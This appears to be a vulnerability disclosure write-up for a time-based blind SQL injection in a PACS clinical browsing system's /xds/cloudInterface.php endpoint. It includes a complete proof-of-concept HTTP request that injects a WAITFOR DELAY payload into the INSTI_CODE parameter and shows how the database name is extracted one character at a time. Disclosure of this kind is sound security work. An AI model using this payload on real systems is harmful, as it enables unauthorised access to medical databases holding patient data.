 There is a front-end SQL injection vulnerability in the clinical browsing system of Lanwang Technology Co., Ltd.

1. Impact of vulnerabilities：PACS clinical browsing system
2. Vulnerability location：/xds/cloudInterface.php
 
3.Recurrence of vulnerabilities
The login interface is as shown in the figure

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/fcee47ac-5cc3-4dd1-a464-aac348cf85d3)
Since the SQL injection here is a time-based blind injection, the database name needs to be determined through ASSCII. The POC is as follows
Here, it is judged through truncation that the first position in the database is X
```
GET /xds/cloudInterface.php?INSTI_CODE=1%27);if%20(ascii(substring(db_name(),1,1)))=88%20WAITFOR%20DELAY%20%270:0:5%27--%20q HTTP/1.1
Host: ip:82
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=9ppbslm6ue630ge9ptrdprb0d2
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.1.23
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/d8b9943b-3a76-48a1-ac7d-df84392ee317)
Here, it is judged through truncation that the second digit in the database is D.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/639218d9-f0ed-43c1-acd4-3ed4a0a8b23e)
Here, it is judged through truncation that the third digit in the database is S.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/94bd3da6-5056-49da-8cd9-6e93e3c3d35d)
Here, it is judged through truncation that the fourth digit of the database is 7
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/f93af689-3094-4022-a6f1-af059e2f602a)
Here, it is judged by truncation that the fifth bit of the database is 0
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/574f1604-902e-469c-acbc-c3bbf206c8be)
Here, it is judged through truncation that the sixth digit in the database is T
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/5589a4ab-9e48-475e-881a-9033fa2b1ec6)
Here, it is determined through delayed injection that the name of the database is: XDS70T

